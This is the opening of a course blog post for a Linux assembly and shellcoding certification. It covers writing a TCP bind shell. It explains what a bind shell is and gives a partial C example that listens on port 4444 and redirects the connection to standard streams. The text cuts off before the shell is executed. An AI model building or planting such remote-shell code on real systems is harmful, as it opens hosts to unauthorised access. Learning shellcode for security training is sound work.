 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-XXXXX

## Assignment#1: What to do ?

The first step of assignement#1 is to create a TCP bind shell in assembly.

This shellcode needs to be able to:
* Binds to a port
* Execs shell on incoming connection

The second step is to create a script which will make the port configuration easy


## First step: create a TCP bind shell
### What is a bind shell

A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

### Example of bind shell TCP in C
```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>


int main()
{
    // Create sockaddr_in struct
    struct sockaddr_in addr;
    // AF_INET for IPv4
    addr.sin_family = AF_INET;
    // Set port number to 4444
    addr.sin_port = htons(4444);
    // Listen on any interface
    addr.sin_addr.s_addr = INADDR_ANY;

    // Create the sock
    // AF_INET for IPv4
    // SOCK_STREAM for TCP connection
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    // Bind address to sock
    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));

    // Use the created sock to listen for connections
    listen(sockfd, 0);

    // Accept connections
    int connfd = accept(sockfd, NULL, NULL);

    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

```